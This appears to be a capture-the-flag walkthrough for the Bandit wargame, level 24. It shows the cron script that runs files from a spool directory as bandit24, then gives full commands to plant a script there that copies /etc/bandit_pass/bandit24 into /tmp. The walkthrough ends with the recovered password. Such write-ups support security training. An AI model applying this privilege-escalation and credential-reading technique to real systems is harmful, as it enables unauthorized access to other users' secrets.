 # Level 24:
Same as before :
```sh
cd /etc/cron.d/
cat /usr/bin/cronjob_bandit24.sh
```
We can now see the following :
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```
Let's make our script and inject it into ``/var/spool/bandit24/foo`` since the script is executed as bandit24
```sh
mkdir -p /tmp/bandit23/ && chmod 777 /tmp/bandit23 && cd /tmp/bandit23 #mkdir -p : no error if existing, make parent directories as needed

echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/pass' > bandit23.sh

chmod 777 bandit23.sh && cp bandit23.sh /var/spool/bandit24/foo
```
Now we wait for the script to execute, ``ls`` to see if the script did execute, and ``cat`` the content of the pass
#### Password
*`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`*
